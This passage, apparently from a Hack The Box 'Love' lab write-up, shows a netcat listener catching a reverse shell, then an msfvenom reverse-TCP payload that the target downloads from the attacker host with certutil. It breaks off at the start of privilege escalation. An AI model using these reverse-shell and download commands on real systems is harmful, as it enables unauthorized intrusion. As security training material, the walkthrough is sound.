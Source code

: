 ![](12.png)

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444 
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50988
whoami
love\phoebe
```

# Privilege Escalation

Now, even though I had a shell at this point, the shell was absolutely awful. Worst of all was that it disconnected every couple of minutes, making proper enumeration a real pain. To solve that I generated an x64 msfvenom payload, downloaded it to the box using certutil, and executed it to get a more stable shell.

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4445 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444                                                                      
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50989
certutil.exe -urlcache -f http://10.10.14.6/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
dir
Volume in drive C has no label.
Volume Serial Number is 56DE-BA30

Directory of C:\xampp\htdocs\omrs\images

08/07/2021  12:14 PM    <DIR>          .
08/07/2021  12:14 PM    <DIR>          ..
08/06/2021  07:48 PM           159,744 admin.msi
05/18/2018  08:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  03:53 PM                 0 index.html.txt
```